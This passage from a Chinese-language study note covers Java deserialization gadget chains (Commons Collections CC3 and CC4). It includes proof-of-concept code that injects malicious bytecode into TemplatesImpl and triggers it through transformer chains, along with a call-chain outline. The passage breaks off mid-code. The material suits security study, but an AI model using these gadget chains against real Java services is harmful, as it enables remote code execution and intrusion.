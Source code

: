             // 5. 创建代理对象（被代理类已经创建好了）
            // System.out.println(Arrays.toString(lazyMap.getClass().getInterfaces()));
            Map proxyMap = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(), new Class[]{Map.class}, invocationHandler);
    
            // 6. 实例化并被序列化的对象（注意这里要传入代理对象，这样才能在其 readObject() 中调用代理对象的方法（即 entrySet()）
            Object toBeSerializedObj = aIHClassDeclaredConstructor.newInstance(Override.class, proxyMap);
    
            String serialize = serialize(toBeSerializedObj);
            unSerialize(serialize);
        }
    ```

3. 执行后还是报错：`TrAXFilter cannot be cast to java.util.Set`，问题出在 `AnnotationInvocationHandler` 的代理，su18 师傅的 PoC，试了也报相同的错误。TODO：以后有低版本 JDK 的源码就在调试一下，看看能不能避免报错。

4. 调用链大概如下：
    ```java
    /*
    	AnnotationInvocationHandler.readObject()
    	    Map(Proxy 代理对象).entrySet()
                AnnotationInvocationHandler.invoke()
                    LazyMap.get()
                        ChainedTransformer.transform()
                            ConstantTransformer.transform()
                                InstantiateTransformer.transform()
                                    TrAXFilter.constructor()
                                        TemplatesImpl.newTransformer()
    */
    ```
    

## 10. CC4

### 10.1 CC4-1

1. 如果不用 CC1 的 kick-off 和 `LazyMap`，改用 CC2 的 kick-off 和 `TransformingComparator`，然后保留 CC3 中创新的部分（也就是后面 `tramsform()` 的部分，这样 CC4 就出来了（就搁着杂交）。

2. 直接上 PoC，没啥说的：
    ```java
    @Test
    public void testCC4_1() throws Exception {
        // 1. 读取恶意类 bytes[]
        ClassPool pool = ClassPool.getDefault();
        CtClass ctClass = pool.getCtClass("com.endlessshw.serialization.util.Evil");
        byte[] bytes = ctClass.toBytecode();
        
        // 2. 构造 sink
        TemplatesImpl templates = new TemplatesImpl();
        // 要求 1 - 注入恶意字节码
        Field bytecodesField = templates.getClass().getDeclaredField("_bytecodes");
        bytecodesField.setAccessible(true);
        bytecodesField.set(templates, new byte[][]{bytes});
        // 要求 2 - 保证 _name 不为 null
        Field nameField = templates.getClass().getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates, "EndlessShw");
        // 3. 构造 chain - InstantiateTransformer 和 ChainedTransformer
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer<>(TrAXFilter.class),
                new InstantiateTransformer<>(new Class[]{Templates.class}, new Object[]{templates}),
        };
        ChainedTransformer transformedChain = new ChainedTransformer(transformers);
        TransformingComparator transformingComparator = new TransformingComparator<>(transformedChain);
        
